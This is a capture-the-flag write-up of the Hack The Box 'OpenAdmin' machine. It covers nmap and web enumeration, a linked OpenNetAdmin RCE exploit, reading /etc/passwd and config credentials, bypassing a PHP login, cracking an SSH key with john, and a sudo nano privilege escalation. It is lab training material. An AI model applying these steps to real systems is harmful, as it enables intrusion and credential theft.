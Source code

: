 ```yaml
---
title: "HTB - OpenAdmin without MetaSploit"
date: 2021-02-08T12:42:29+01:00
categories: ["hacking","write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/OpenAdmin.png"
aliases:
  - /htb-openadmin-without-metasploit/
  - /htb-openadmin/
---
```

## Intro
The importance to also patch your "applications", and not just your services.

## Target
[HTB - OpenAdmin](https://app.hackthebox.eu/machines/222)

## Recon

Again, this is an HTB box, so recon is mainly active, and I feel like active recon == enum.

Still, we can check : 

* Name of the box : OpenAdmin ;
* OS "type", : Linux :
* Hints given on HTB website, information section :

![](/images/2021/02/2021-02-08_12-13.png)

## Enum

As always, we start with an nmap scan :

```text
sudo nmap -T4 -A -p- $target_ip
```

```text
# Nmap 7.91 scan initiated Thu Jan 28 15:27:52 2021 as: nmap -T4 -A -p- -oA HTB/OpenAdmin/nmap $target_ip
Nmap scan report for $target_ip
Host is up (0.023s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=1/28%OT=22%CT=1%CU=33687%PV=Y%DS=2%DC=T%G=Y%TM=6012CA1
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%II=I%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T5(R=N)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%
OS:Q=)T7(R=N)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40
OS:%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   22.95 ms 10.10.14.1
2   24.65 ms $target_ip

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 28 15:28:39 2021 -- 1 IP address (1 host up) scanned in 47.14 seconds

```

We find 2 services : ssh and Apache, both on standard ports. I like to check `searchsploit` for every service + version I find, in order to see if there any big vulnerability. In general, SSH isn't something that I"ll try to attack right away. It is more of a "last chance" path, with brute force.

### Web scanning

In our case, we found a web server running Apache, but th version doesn't seem vulnerable. So, let's fire `nikto` and `dirbuster` :

```text
nikto -h http://$target_ip
```

And dirbuster like so :

![](/images/2021/02/2021-02-08_11-28.png)

Dirbuster, will find an interesting dir "ona", browsing to this resource we discovered it is running OpenNetAdmin version 18.1.1 which is outdated and probably vulnerable...

![](/images/2021/02/ONA.png)

Indeed, after a quick search, we discover that it is vulnerable to Remote Code Execution (RCE), one of the most dangerous vuln we could find. Awesome!

## Exploitation
### Getting initial shell
The vuln in question can be found here : [https://www.exploit-db.com/exploits/47691](https://www.exploit-db.com/exploits/47691) it is a simple Python script that will grant you a shell access on the remote machine.

Unfortunately, this shell only runs as `www-data`, the default `Apache` user and with `/sbin/nologin` shell. Still, we can still look around. I usually check what files I have access to :

```text
find / -xdev -type f -user $current_user
```

 Let's check who was access to sudo :

```text
ls -lhtrR /etc/sudo*
```

I also like to check what users are on the system and see if I can access some files inside their home's folders :

```text
cat /etc/passwd && ls -lhtrR /home/
```

And of course in our case, explore the web root folders.

Doing so, we discover two users : `joanna` and `jimmy` and an interesting set of credentials inside `/var/www/html/local/ona/config`.

It happens that the password from this file is actually jimmy's account SSH password. We now have a real bash shell, in a real terminal, with bash completion, hurray!

Once again, we check for common stuff, like what files do we own, and sudo rights :

```text
sudo -l
```

So, no sudo rights for us, however, we discover a new website that only runs on localhost. This website is very important, as we can see that, once logged as Jimmy, it will send us the SSH private key of Joanna.

I decided to create an SSH tunnel :

```text
ssh -L 52846:127.0.0.1:52846 -N -f jimmy@$target_ip
```

And to modify the login page in order to get rid of authentication :

```text
<?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
```

becomes :

```text
          <?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && $_POST['password'] == 'plop') {
            //  if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
```

We can now browse to 127.0.0.1:52846 and log in with `jimmy` // `plop`.

And bingo! We got Joanna's key with an extra tip :

> Don't forget your "ninja" password

Of course, Joanna-s key is encrypted... We save it as id_joanna and hash it :

```text
python /usr/share/john/ssh2john.py id_joanna > joanna.hash
```

Now that we have the hashed version, time to crask it :

```text
john -wordlist=/usr/share/wordlists/rockyou.txt joanna.hash 
```

We finally, have joanna's ssh key password, we can now connect to the server as her!

### PrivEsc

As usual, we do all our basic checks. Doing so, we will notice :

* We have access to user.txt flag ;
* We have access to `sudo /bin/nano /opt/priv` without password.

Accessing root password which is always located in `/root/root.txt` is a simple matter of running `nano` as root (with `sudo`) and entering command mode with `^R` + `^X` to `cat` the flag file).

We now got `root.txt`!

## Outro

As we have just seen, one can obtain root access to a machine via "third party" application while the rest of the system is up to date. So, make sure to keep everything updated!
